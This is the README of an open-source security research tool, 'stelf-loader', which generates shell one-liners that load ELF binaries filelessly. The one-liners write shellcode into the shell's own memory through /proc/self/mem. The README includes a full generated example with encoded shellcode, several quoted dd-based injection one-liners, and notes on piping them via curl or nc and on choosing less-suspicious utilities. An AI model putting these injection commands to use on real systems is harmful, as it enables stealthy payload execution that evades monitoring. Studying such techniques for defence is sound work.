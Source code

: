 # stelf-loader
A stealthy ELF loader - no files, no execve, no RWX

See also: [arget13/DDexec](https://github.com/arget13/DDexec), which is a similar idea to this but probably more flexible - I wrote most of `stelf-loader` before I realised that `DDexec` existed!

Here's a simple "hello world" ELF (`test_elfs/syscall-static-pie.c`), packed using stelf-loader:

```sh
$ python3 elf_to_stelf.py test_elfs/syscall-static-pie - -r
#!/bin/sh

read a </proc/self/syscall
exec 3>/proc/self/mem 4<<EOF 5>/dev/null
A
EOF
cat /dev/fd/4 >&5
tail -c+$(($(echo $a|cut -d\  -f9)+1)) <&3 2>&5
base64 -d<<EOF|gunzip >/dev/fd/4 &
H4sIAMd7+mMC/+3ZP0vDQBjH8SdtEkqX9B30dG6pHQQH/y1KBhdfQkkjBgKKCYiTr6DQd+Bb6Fg6
qODgu3Bz0L2z5pqeXASLi6jw/Qx5eH7ccwe3HenfT5rhaGceiNxKS2TmiEjg9cv4qW1iz44feyYW
O57smbi+iF9uivExAAAAAAD4bdcHR4c1Rz/6S3XZlUXXKvv9ZR6qjyVFtiV+8XWL1XqtK18bO9Vq
9tWtZ/Wf67pUqz3n2vspWc2a8+31G9XalWo1czUzZ47rrT6usazHz/nQl+9rCAAAAAAAP2eqH8Z3
+jPr6Gf+aPO1rf/dT7eLrv8WeA/cEQAAAAAAAAAAAAAAf10Yp+lZR2X5IE+i7nkSqzg9UZdJfqqG
yUUc5Sq7yqJBmmZrTW4LAAAAAID/6R2QbjDaAFAAAA==
EOF
base64 -d<<EOF >&3
McCwCTH/vgBQAAAx0rIDTTHSQbIiTTHASffQTTHJDwVJicdJifZIifJIicYx/0C3BDHADwVIhcB4
90gBxkgpwnXvMcCwCkyJ/0yJ9jHSsgUPBUH/5w==
EOF
```

You could put this in a file and execute it, but that would slightly defeat the
purpose (of being file-less). The intended usage scenario is to paste it directly into a terminal,
or perhaps even `curl | sh` or `nc | sh`. The aim is to be as portable as possible between different shell implementations. So far I've tested it against `bash`, `zsh`, `dash`, and `busybox ash`.

This implementation currently relies on some hand-written x86-64 shellcode, but the
general approach should be applicable cross-architecture.

It works on both `static` and `static-pie` ELFs. However, dynamic ELFs are out of scope for this project.

`static-pie` ELFs are recommended, to ensure that the address space does not collide with that of the loader process.

## Shell-based self-injecting shellcode loader

This technique has a slightly complicated history, with some "multiple discovery" going on - multiple people working independently had similar ideas, with improvements over time. I will try to present the concepts in chronological order, with attribution where possible.

Before ASLR/PIE was widely implemented, somebod{y,ies} realised that the `dd` binary could be used to inject code into its own address space, by writing to `/proc/self/mem`, making use of the `seek` argument to seek to the correct offset within the `mem` file to point into some executable code, which would subsequently be executed.

An example of this can be seen in brainsmoke's [tweet](https://twitter.com/brainsmoke/status/399558997994668033) here:

```sh
base64 -d<<<aExPTApUXmoEagFqAl9YWg8F|dd seek=1 bs=$((`objdump -d /*/dd|grep ll.*\<w|sed 's/\([0-9a-f]\+\):.*/0x\1+5/'`)) of=/proc/self/mem
```

### Parallel idea 1:

To account for PIE, `brainsmoke` came up with the idea of injecting into the shell process, as opposed to `dd` itself. Since the shell process stays running for the duration, we can dynamically "leak" pointers from various `/proc/<pid>/*` entries, and use that to know where to inject the code, thus "bypassing" ASLR. `dd` does not have permission to open the parent shell's `mem` file, and so clever fd redirection was used to get the shell itself to open the fd, to be passed into `dd`.

Example ([source](https://twitter.com/brainsmoke/status/1258875830014480386))

```sh
cd /proc/$$;exec 3>mem;(base64 -d<<<MdtoL2JpbkiJ54FvBNGMl/9qLcZH+WNIieBTSIni6w5QSI1ADVBIieaNQzsPBejt////L2Jpbi9iYXNoAADrwA==;yes $'\xeb\xfc'|tr -d '\n')|dd bs=1 seek=$((0x$(grep vdso -m1 maps|cut -f1 -d-)))>&3
```

### Parallel idea 2:

Independently, `arget13` had the idea of using `dd` to do something similar to the base technique which he called [DDexec](https://github.com/arget13/DDexec). However, not realising that `mem` allows writing to read-only pages, he came up with a wonderfully complex mechanism for injecting a ROP payload, all implemented through shell scripting.

### Parallel idea 3:

I was vaguely aware of `brainsmoke`'s technique, having seen it mentioned on IRC several years prior. However, I couldn't remember how it worked exactly, and so I tried to reinvent it myself. I came up with [this](https://twitter.com/David3141593/status/1386438123647868930)

```sh
dd of=/proc/$$/mem bs=1 seek=$(($(cut -d" " -f9</proc/$$/syscall))) if=<(base64 -d<<<utz+IUO+aRkSKL+t3uH+McCwqQ8F) conv=notrunc
```

Rather than parsing objdump output to find a good place to inject, I read from `/proc/<pid>/syscall` and parsed out the value of the program counter register - which is inevitably pointing into some executable code.

As-is, this technique was suboptimal, since it requires `dd` to be allowed to open the `mem` file of the parent process (which only happens if `dd` is run as root, or Yama is disabled).

### Merging of the streams

After I posted about my variant of the technique, brainsmoke pointed out his fd redirection trick, which I was able to incorporate back into my technique, giving the "best of both worlds" - no need for parsing `objdump` output, and no need for root or disabled Yama.

`arget13` saw the conversation, and incorporated the `syscall` technique into his `DDexec` tool. He also ditched his complex ROP generation code in favour of directly overwriting executable code.

I wasn't aware of `DDexec` at the time, and I started writing my own tool along the same lines, which I called `stelf-loader` (this tool!) - but at this point in time I hadn't published it.

After writing most of `stelf-loader`, I found `DDexec` and facepalmed - it was basically everything I set out to do with `stelf-loader`, and more. However, `stelf-loader` still does something that `DDexec` doesn't - `stelf-loader` is written in Python as opposed to shell scripting, and instead *generates* shell scripts (or one-liners) as output. The generated shell scripts are potentially very compact and can be pasted directly into a terminal session, whereas `DDexec` requires the (relatively) large ddexec shell script to be dropped onto the system first (you could work around this, but it would still take up more space).

Around 12/12/2022, `arget13` discovered that several other common utilities other than `dd` could be used to seek the file descriptor, one of those alternatives being `less`. `less` is of course more commonly installed and executed than `dd`, making the overall technique more portable and less eyebrow-raising.

After noticing this change to `DDexec`, I updated `stelf-loader` to also use `less` for seeking.

In its current form, `stelf-loader` combines:

- "The" `/proc/<pid>/mem` shellcode injection.
- brainsmoke's fd redirection technique.
- My own `/proc/<pid>/syscall` program counter "leak" technique.
- arget13's `less`-seeking technique (as a sneakier alternative to `dd`)

## `elf_to_shellcode.py`

This is usable as a standalone script. It flattens a static
ELF into a piece of shellcode. This is very similar to what [gamozolabs/elfloader](https://github.com/gamozolabs/elfloader) does,
except it also generates a shellcode stub that sets up the correct page permissions. (If I was rewriting this project today, I'd use `elfloader` to do the ELF parsing, but writing my own was an interesting educational exercise.)
This avoids needing RWX mappings.

## `elf_to_stelf.py`

This script ties together all the aforementioned tricks. It takes a static-pie ELF as input, and outputs a (potentially extremely long) sequence of shell commands.

## TODO

- argv passthru
- mmap and pivot to a fresh stack
- add more options to `elf_to_shellcode.py`
